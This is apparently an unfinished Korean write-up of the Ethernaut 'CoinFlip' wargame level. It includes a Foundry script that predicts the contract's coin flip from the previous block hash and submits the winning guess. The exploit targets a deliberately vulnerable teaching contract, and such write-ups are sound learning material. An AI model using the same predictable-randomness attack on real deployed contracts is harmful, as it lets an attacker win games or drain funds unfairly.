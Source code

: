 ```yaml
---
tags:
  - Ethernaut
  - Write-up
---
```

Random인 척 하는 값을 이용한다고도 볼 수 있고.. Random을 구현하기 힘듦을 나타내는 것이라고도 할 수 있고.. 아무튼 그런 문제입니다.

![[Pasted image 20241004045902.png]]

초 심플한 문제입니다. `flip()` 함수 하나만 있는데, 플레이어가 할 일은 `_guess` 값을 제대로 넣는 것 밖에 없습니다.
솔직히 script 짜기 귀찮지만, 연습삼아 해보기로 했습니다.

아래 문서 등을 참고하며 짰습니다.
- [Foundry, getBlockNumber](https://book.getfoundry.sh/cheatcodes/get-block-number)


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {CoinFlip} from "../src/EN_3_CoinFlip.sol";

contract Player {
  uint FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor (CoinFlip prob) {
    uint blockValue = uint(blockhash(block.number - 1));
    uint coinflip = blockValue / FACTOR;
    bool guess = coinflip == 1 ? true : false;
    prob.flip(guess);
  }
}

contract EN_3 is Script {
    CoinFlip public ctrt = CoinFlip(payable(0x94099942864EA81cCF197E9D71ac53310b1468D8));


    function run() public {
        vm.startBroadcast(vm.envUint("PRIV_KEY"));

        new Player(ctrt);
        console.log("Win count:", ctrt.consecutiveWins());

        vm.stopBroadcast();
    }
}
```

(wip)